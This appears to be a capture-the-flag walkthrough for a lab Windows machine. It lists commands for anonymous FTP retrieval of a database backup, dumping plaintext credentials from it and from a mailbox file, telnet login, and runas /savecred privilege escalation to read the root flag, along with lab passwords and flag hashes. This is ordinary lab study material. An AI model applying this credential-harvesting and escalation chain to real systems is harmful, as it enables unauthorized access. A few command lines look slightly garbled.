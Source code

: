 User
	Command1
		```sh
		ftp Anonymous@{IP}
		binary
		cd Backups
		get backup.mdb
		cd ..\Engineer\Control.zip
		exit
		sudo apt install mdbtools
		mdb-tables backup.mdb
		mdb-json backup.mdb auth_user```
	Creds:
		{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
		{"id":27,"username":"engineer","password":"access4u@security","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
		{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}
	{EXTRACT THE DB w/ PWD}
	Command2
		```sh
		sudo apt install pst-utils
		readpst Access\ Control.pst```
	{OPEN THE RESULTING MBOX FILE}
	Access Control.mbox
		The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
	USER CREDS:
		user:
			security
		password:
			4Cc3ssC0ntr0ller
	PWN:
		```sh
		telnet 10.129.228.89
		type Desktop\user.txt```
		261a54a9014df6fb3dbd2138a51f318f

Root
	COMMAND1:
		```sh
		telnet 10.129.228.89
		cd C:\Users\Public\Desktop\
		type type "ZKAccess3.5 Security System.lnk"
		#THIS FINDS YOU user:ACCESS\Administrator
		runas /user:ACCESS\Administrator /savecred "cmd /c type C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Videos\root.txt"```
	PWN:
		```sh
		type C:\Users\security\Videos\root.txt```
		98e0763999f64f9437585bd74ec90b97